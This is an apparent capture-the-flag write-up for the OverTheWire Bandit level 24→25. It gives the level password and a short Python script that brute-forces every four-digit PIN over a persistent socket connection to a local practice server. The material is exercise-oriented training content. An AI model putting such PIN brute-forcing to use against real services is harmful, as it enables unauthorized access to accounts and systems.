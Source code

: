 ## Bandit 24 → 25
bandit24 - UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
These last two are the most exciting. This one involves bruteforcing all 4 digit pins to a remote server. 
The slow way is to loop doing echo foo | nc, but that creates a new connection each time. The faster way 
is to keep the connection open and loop. I used my shoe.py script for easy reading and writing to remote 
servers.

```
#!/usr/bin/python
import shoe

s = shoe.Shoe('localhost', 30002)
for i in range(0, 9999):
    cmd = "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ {}".format(i)
    s.write(cmd + "\n")
    r = s.read_until_end(.001)
    if "Wrong!" not in r and len(r) > 10:
            print(r)
```
